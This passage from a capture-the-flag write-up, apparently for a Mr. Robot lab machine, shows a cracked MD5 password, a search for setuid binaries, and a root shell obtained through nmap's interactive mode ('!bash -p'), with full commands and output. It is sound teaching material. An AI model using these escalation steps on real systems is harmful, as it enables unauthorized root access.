 Doing a quick search reveals that this hash represents the string `abcdefghijklmnopqrstuvwxyz`
```
daemon@linux:/home/robot$ su robot 
su robot 
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls
ls
key-2-of-3.txt	password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

Woo! We've got our second flag `822c73956184f694993bede3eb39f959` One more to go.

## 3. Privilege Escalation

Let's do a search for setuid binaries and see what we can find
```
robot@linux:~$ find / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

nmap doesn't normally have a setuid bit and this makes it vulnerable to privilege escalation.
```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !bash -p
!bash -p
bash-4.3# whoami
whoami
root
bash-4.3# id  
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
bash-4.3# cd /root
cd /root
bash-4.3# ls -l
ls -l
```